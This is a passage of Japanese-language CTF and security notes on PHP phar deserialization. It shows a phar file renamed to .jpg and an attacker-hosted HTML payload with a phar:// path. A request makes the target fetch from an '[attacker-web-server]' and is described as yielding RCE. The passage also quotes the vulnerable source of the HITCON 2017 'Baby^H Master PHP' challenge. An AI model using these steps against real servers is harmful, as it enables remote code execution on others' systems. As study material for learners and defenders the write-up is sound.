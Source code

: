 ```php
$phar->setMetadata(new Gdn_Configuration());
$phar->stopBuffering();

// we rename it now
rename("poc.phar", "poc.jpg");
```
攻撃サーバーに以下のコンテンツを用意しておいて、  
```txt
<html><body><img src="phar:///var/www/html/uploads/6O51ZT69P0S4.jpg">a</img></body></html>
```
以下でこの攻撃者サーバーにアクセスさせればRCE！  
```txt
http://target/index.php?p=/dashboard/utility/fetchPageInfo/http:%2f%2f[attacker-web-server]:9090%2f
```
## phar with GIF / %00lambda_1 / file_get_contents (hitcon2017 Baby^H Master PHP 2017)
https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017  
https://rdot.org/forum/showthread.php?t=4379  
- **entrypoint**  
`$data = $_COOKIE["session-data"];`,`unserialize($data);`が一見脆弱っぽいが、`if ( !hash_equals(hash_hmac("sha1", $data, $SECRET), $hmac)`で`$data`の署名を検証しているので改竄は無理。  
`$mode = $_GET["m"];`で`?m=upload`と`?m=show`の二つの機能がある。  
`upload`関数には`file_get_contents($_GET["url"] . "/avatar.gif");`で任意のURLのコンテンツを取得して`/var/www/data/md5("orange".$_SERVER["REMOTE_ADDR"])`に保存している。  
`show`関数には`if ( !file_exists($path . "/avatar.gif") )`でそのパスのファイルを読み込んでいる。  
```php
 <?php
    $FLAG    = create_function("", 'die(`/read_flag`);');
    $SECRET  = `/read_secret`;
    $SANDBOX = "/var/www/data/" . md5("orange" . $_SERVER["REMOTE_ADDR"]); 
    @mkdir($SANDBOX);
    @chdir($SANDBOX);

    if (!isset($_COOKIE["session-data"])) {
        $data = serialize(new User($SANDBOX));
        $hmac = hash_hmac("sha1", $data, $SECRET);
        setcookie("session-data", sprintf("%s-----%s", $data, $hmac));
    }

    class User {
        public $avatar;
        function __construct($path) {
            $this->avatar = $path;
        }
    }

    class Admin extends User {
        function __destruct(){
            $random = bin2hex(openssl_random_pseudo_bytes(32));
            eval("function my_function_$random() {"
                ."  global \$FLAG; \$FLAG();"
                ."}");
            $_GET["lucky"]();
        }
    }

    function check_session() {
        global $SECRET;
        $data = $_COOKIE["session-data"];
        list($data, $hmac) = explode("-----", $data, 2);
        if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac))
            die("Bye");
        if ( !hash_equals(hash_hmac("sha1", $data, $SECRET), $hmac) )
```